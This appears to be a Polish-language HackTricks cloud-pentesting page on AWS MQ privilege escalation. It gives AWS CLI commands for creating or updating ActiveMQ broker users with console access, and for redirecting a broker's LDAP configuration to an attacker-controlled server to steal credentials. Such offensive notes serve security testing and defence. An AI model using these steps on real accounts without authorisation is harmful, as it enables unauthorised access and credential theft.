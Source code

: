 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Aby uzyskać więcej informacji na temat MQ, sprawdź:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActiveMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych informacji poprzez nawigację w ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Dzięki tym uprawnieniom możesz **utworzyć nowego użytkownika w brokerze ActimeMQ** (to nie działa w RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencjalny wpływ:** Uzyskanie dostępu do wrażliwych informacji poprzez nawigację w ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Jeśli broker używa **LDAP** do autoryzacji z **ActiveMQ**, możliwe jest **zmienienie** **konfiguracji** serwera LDAP na **taki kontrolowany przez atakującego**. W ten sposób atakujący będzie mógł **ukraść wszystkie poświadczenia przesyłane przez LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Jeśli w jakiś sposób udałoby ci się znaleźć oryginalne poświadczenia używane przez ActiveMQ, mógłbyś przeprowadzić atak MitM, ukraść poświadczenia, użyć ich na oryginalnym serwerze i wysłać odpowiedź (może po prostu ponownie używając skradzionych poświadczeń, mógłbyś to zrobić).

**Potencjalny wpływ:** Ukraść poświadczenia ActiveMQ

{{#include ../../../banners/hacktricks-training.md}}
